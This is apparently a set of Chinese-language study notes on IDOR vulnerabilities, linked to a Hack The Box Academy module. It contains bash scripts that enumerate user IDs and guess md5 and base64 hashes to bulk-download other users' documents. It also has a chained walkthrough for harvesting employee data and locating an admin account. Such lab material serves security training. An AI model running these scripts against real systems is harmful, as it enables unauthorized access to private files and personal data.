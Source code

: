 # IDOR

{% hint style="info" %}
`Insecure Direct Object References (IDOR)` 漏洞是最常見的網路漏洞之一，可能會對有漏洞的網路應用程式造成嚴重影響。當 Web 應用程式公開對物件（如檔案或資料庫資源）的直接引用時，就會出現 IDOR 漏洞，最終使用者可以直接控制該引用以取得對其他類似物件的存取權限。如果由於缺乏穩固的存取控制系統而導致任何使用者可以存取任何資源，則該系統被視為易受攻擊。

\
建立可靠的存取控制系統非常具有挑戰性，這就是 IDOR 漏洞普遍存在的原因。此外，自動識別存取控制系統中的弱點的過程也相當困難，這可能導致這些漏洞在投入生產之前都無法被發現。
{% endhint %}

## <mark style="color:red;">**1. 發現點**</mark>

*   **未受保護的用戶文檔查詢**：

    ```bash
    http://example.com/documents.php?uid=1
    ```

    * 這個 URL 允許根據 `uid` 獲取用戶的文檔連結。
    * 攻擊者可以透過遍歷 `uid` 來收集所有用戶的文檔資訊。
*   **基於 `contract` 參數的下載端點**：

    ```bash
    http://example.com/download.php?contract=40f5888b67c748df7efba008e7c2f9d2
    ```

    * `contract` 參數可能是基於 `uid` 的哈希（如 `md5(uid)` 或 `UUID`）。
    * 攻擊者可以嘗試使用不同的哈希值來獲取其他用戶的文檔。
*   **API 可遍歷的用戶資訊**：

    ```bash
    GET /user/profile?id=124
    ```

    * 這個 API 允許透過 `id` 參數查詢其他用戶的個人資料。
    * 如果沒有適當的權限驗證，攻擊者可以遍歷 ID 來收集所有用戶的個資。
*   **UUID 作為下載參數**：

    ```bash
    http://example.com/download.php?uuid=550e8400-e29b-41d4-a716-446655440000
    ```

    * 這可能是一個 UUID，代表某個文件的唯一標識符。
    * 如果 UUID 可預測或可以暴力破解，攻擊者可以下載其他用戶的文件。

## <mark style="color:red;">**2. 測試Payload**</mark>

#### **(1) 遍歷 `uid` 獲取文件**

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..100}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

**解釋**：

* 遍歷 `uid` 1 到 100，檢查是否能獲取 `.pdf` 文件連結。
* 使用 `wget` 下載每個發現的文件。

***

#### **(2) 嘗試哈希變體下載文件**

```bash
#!/bin/bash

for i in {1..100}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

**解釋**：

* 嘗試 `contract` 參數是否為 `md5(uid)`。
* 嘗試 `base64(uid)` + `md5` 來測試哈希變體。

***

#### **(3) UUID 碰撞攻擊**

如果 `contract` 或 `uuid` 是基於某個可推測的模式（如 `md5(email)`），可以暴力測試：

```bash
for email in $(cat email_list.txt); do
    uuid=$(echo -n $email | md5sum | awk '{print $1}')
    curl -sOJ "http://example.com/download.php?uuid=$uuid"
done
```

**解釋**：

* 透過 `email_list.txt` 內的郵件地址生成 `md5(email)`。
* 測試是否可作為 `uuid` 來下載文件。





## <mark style="color:red;">3. 連鎖IDOR漏洞</mark>

#### **🔗 第一步：利用 `documents.php?uid=X` 來獲取用戶數據**

攻擊者可以遍歷 `uid` 來獲取所有員工的個人資訊，例如：

```
http://example.com/documents.php?uid=1
```

返回：

```json
{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "document_link": "/documents/file_1.pdf"
}
```

✅ **我們現在知道：**

* `uid` 可遍歷，攻擊者可以獲取所有用戶的 `UUID`、`email` 和 `document_link`。

#### **🔗 第二步：利用 `contract=md5(uid)` 來下載文件**

攻擊者現在擁有了一個員工的 `uid`，我們猜測文件下載 API 可能使用 `md5(uid)` 作為 `contract`：

```
http://example.com/download.php?contract=40f5888b67c748df7efba008e7c2f9d2
```

攻擊者使用以下腳本遍歷 `contract`：

```bash
for i in {1..100}; do
    md5_hash=$(echo -n $i | md5sum | awk '{print $1}')
    curl -sOJ -X POST -d "contract=$md5_hash" http://example.com/download.php
done
```

✅ **現在我們可以批量下載所有員工的文件。**

***

#### **🔗 第三步：利用 `GET /user/profile?id=X` 獲取高權限帳戶**

攻擊者現在有了一份員工列表，他發現系統允許透過 `id` 來查詢個人資料：

```
GET /user/profile?id=124
```

回應：

```json
{
    "id": 124,
    "role": "admin",
    "full_name": "John Doe",
    "email": "admin@example.com"
}
```

✅ **我們成功找到了 `admin` 的 `id`！**

## <mark style="color:red;">4.Skills Assessment</mark>

[<mark style="color:red;">https://academy.hackthebox.com/module/134/section/1219</mark>](https://academy.hackthebox.com/module/134/section/1219)

